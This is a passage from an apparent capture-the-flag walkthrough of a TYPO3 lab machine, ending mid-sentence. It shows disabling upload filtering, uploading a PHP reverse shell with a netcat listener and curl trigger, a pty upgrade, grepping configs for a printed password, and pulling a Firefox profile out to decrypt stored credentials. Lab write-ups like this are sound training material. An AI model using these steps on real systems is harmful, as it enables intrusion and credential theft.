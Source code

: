 ### Upload Workflow

\*\*Disable file upload filtering\*\*
   In TYPO3 backend:
   `Admin Tools → Settings → [fileDenyPattern]`
   Clear filters and save.

**Upload reverse-shell**
   Use a PHP shell like `php-reverse-shell.php` via `Filelist → Upload file`.

**Trigger shell & gain reverse connection**

```bash
# On attacker:
nc -lvnp 443

# On target (after upload):
curl http://admin1.vulnnet.thm/fileadmin/user_upload/php-reverse-shell.php
```

**Stabilize to a real shell**:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## 6. Privilege Escalation → `system`

Once you’ve acquired a reverse shell as `www-data`, perform enumeration to identify local users and credentials:

```bash
www-data@vulnnet-endgame:/$ cat /etc/passwd | cut -d: -f1
```

Check for accessible credentials or config files—particularly, look at the TYPO3 and API configuration:

```bash
www-data@…:/var/www/html/admin1/typo3conf$ grep -R "password" .
LocalConfiguration.php: 'password' => 'q2SbGTnSSWB95',
...
/var/www/html/api/index.php:$password = "q2SbGTnSSWB95";
```

The MySQL password appears to be `q2SbGTnSSWB95`, but it didn’t work for `su system`.

Next, enumerate the `system` user’s home directory:

```bash
www-data@…:/home/system$ ls -lah
drwxr-xr-x 4 system system .mozilla
```

This reveals Firefox profile data. Using `zip` and `python3 -m http.server 8001`, download the `.mozilla` folder and decrypt saved credentials using `https://github.com/unode/firefox_decrypt`:
